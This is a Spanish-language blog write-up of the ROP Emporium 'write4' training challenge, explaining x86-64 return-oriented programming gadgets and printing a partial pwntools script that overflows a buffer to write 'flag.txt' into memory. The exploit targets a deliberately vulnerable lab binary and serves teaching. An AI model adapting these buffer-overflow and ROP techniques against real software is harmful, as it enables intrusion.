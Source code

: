 ```yaml
---
title: Solución ropemporium write4 
date: 2024-01-11
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop] #minúsculas-
---
```

En este post resolveré rompemporium write4, empezamos como siempre leyendo el enunciado de la web de ropemporium
https://ropemporium.com/challenge/write4.html 

Cord cut
On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

Differences
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library in an attempt to mitigate the alternate solution that is possible in the callme challenge. The stack smash also takes place in a function within that library, but don't worry this will have no effect on your ROP chain.

Important!
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.
Read/Write
Hopefully you've realised that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

Una vez leído el enunciado sacamos la siguiente información el string de /bin/cat flag.txt no esta presente en el binario, para poder solucionarlo nos dice lo siguiente que hay una función print_file() que nos permite pasar argumentos para poder ver la flag.
En este challenge nos pone también que no usaremos la funcionalidad integrada, ya que sería lo mismo que los anteriores, sino que usaremos gadgets para permitir escribir valor en la memoria como ``` mov [reg], reg ```
![](/assets/img/rop/write4.png)
Empezaremos mirando en qué zonas tenemos permiso de lectura y escritura / rw para eso usaremos radare.
Abrimos el binario con radare y ejecutamos iS para ver qué zonas podemos escribir.
![](/assets/img/rop/wr.png)

Vamos a buscar ahora un gadget que nos permita hacer lo que dice en el enunciado mov.
![](/assets/img/rop/gadgetmov.png)
Vamos primero a hablar un poco de assembly, porque es fundamental para entender que es lo que estamos buscando. Un mov en assembly es mover datos de un lugar de la memoria o entre registros, vamos a poner ejemplo para que quede claro la cosa.
```shell
mov eax, ebx     ; Copiar el valor en el registro ebx al registro eax
mov [ecx], edx   ; Almacenar el valor en el registro edx en la dirección de memoria apuntada por ecx
mov edx, 0x42    ; Asignar el valor inmediato 0x42 al registro edx
```
Vale, sabes que es mov ahora nos falta saber que es pop, pop se utiliza para extraer un valor de la pila(desapilar) y almacenarlo en el destino correspondiente, ejemplos:

```shell
pop eax         ; Desapilar un valor de la pila y almacenarlo en el registro eax
pop ebx         ; Desapilar otro valor de la pila y almacenarlo en el registro ebx
pop dword [esp] ; Desapilar un valor y almacenarlo en la dirección de memoria apuntada por esp
```
Ahora, sabiendo qué pop carga registros, vamos a buscar gadgets de pop de la siguiente forma.
![](/assets/img/rop/POP.png)

Ahora que hemos buscado gadgets nos vamos a quedar con los siguientes :
```ruby
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```
Vamos a ver como tenemos el script, por ahora.
```python
#/usr/bin/python3
from pwn import process, p64, log

shell = process("./write4")

offset = 40
junk = b"A" * offset

rw = p64(0x600df0)

pop_r14_r15 = p64(0x400690)
mov_r14_r15 = p64(0x400628)

payload  = b""
payload += junk
payload += pop_r14_r15 + rw + b"flag.txt"
payload += mov_r14_r15

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```
Por ahora tenemos el script, asi nos faltara la direcciona de la Por ahora tenemos el script, así nos faltará la direcciona de la función, que recibirá el parámetro, para saber las direcciones que nos faltan usaremos radare y Ropgadget, la dirección de pop rdi ret la obtenemos filtrando con pop como hicimos en unos pasos anteriores.

```ruby
0x0000000000400693 : pop rdi ; ret
```
En la siguiente imagen podéis ver como obtenemos la dirección de la función de print_file() que nos comenta en el enunciado.
![](/assets/img/rop/printfunct.png)

Por lo tanto, el exploit final quedaría así.

# Exploit
![](/assets/img/rop/explcall.png)